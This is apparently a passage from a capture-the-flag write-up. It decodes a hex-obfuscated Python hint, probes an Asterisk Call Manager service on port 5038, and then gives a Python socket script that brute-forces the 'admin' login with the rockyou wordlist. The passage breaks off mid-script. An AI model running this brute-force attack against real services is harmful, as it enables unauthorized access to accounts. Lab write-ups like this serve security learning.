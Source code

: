 {% highlight python %}
oO00oOo = '476f6f64206a6f622c2075736572202261646d696e2220746865206f70656e20736f75726365206672616d65776f726b20666f72206275696c64696e6720636f6d6d756e69636174696f6e732c20696e7374616c6c656420696e20746865207365727665722e'
OOOo0 = bytes.fromhex(oO00oOo)
Oooo000o = OOOo0.decode('ASCII')
print(Oooo000o);
Oo = '476f6f64206a6f622072657665727365722c20707974686f6e206973207665727920636f6f6c21476f6f64206a6f622072657665727365722c20707974686f6e206973207665727920636f6f6c21476f6f64206a6f622072657665727365722c20707974686f6e206973207665727920636f6f6c21'
I1Ii11I1Ii1i = bytes.fromhex(Oo)
Ooo = I1Ii11I1Ii1i.decode('ASCII')
print(Ooo)
{% endhighlight %}

Now the output is this:

```
Good job, user "admin" the open source framework for building communications, installed in the server.
Good job reverser, python is very cool!Good job reverser, python is very cool!Good job reverser, python is very cool!
```

## Asterisk Call Manager

The output is saying something about an open source framework in the machine, if we go back to the ports we found on our scan there's a service called Asterisk Call Manager 5.0.2, running on port 5038, let's connect to it using netcat and send a newline to see how it responds.


```
Asterisk Call Manager/5.0.2

Response: Error
Message: Missing action in request
```

The service responds to payloads we send, I searched on the web how this service works and I ended up finding [this page](https://www.voip-info.org/asterisk-manager-example-login/), sending the payload found in this page the service responds saying that the authentication failed and closes the connection.

The output of the python code earlier told us about the user admin, so I thought that we would need to find the default credentials for asterisk manager, I searched a lot with no luck.

After spending some time searching for default credentials, I thought of trying to brute force the user password, so I ended up writing this python script:

{% highlight python %}
import socket

host = "<DEPLOYED_MACHINE_IP>"

port = 5038

with open("rockyou.txt") as f:
    for line in f:
        passw = line.replace("\n","")
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        s.recv(1024)

        string = "ACTION: LOGIN\nUSERNAME: admin\nSECRET: {}\nEVENTS: ON\n\n".format(passw)

        print(string)

        s.sendall(str.encode(string))

        result = s.recv(1024)
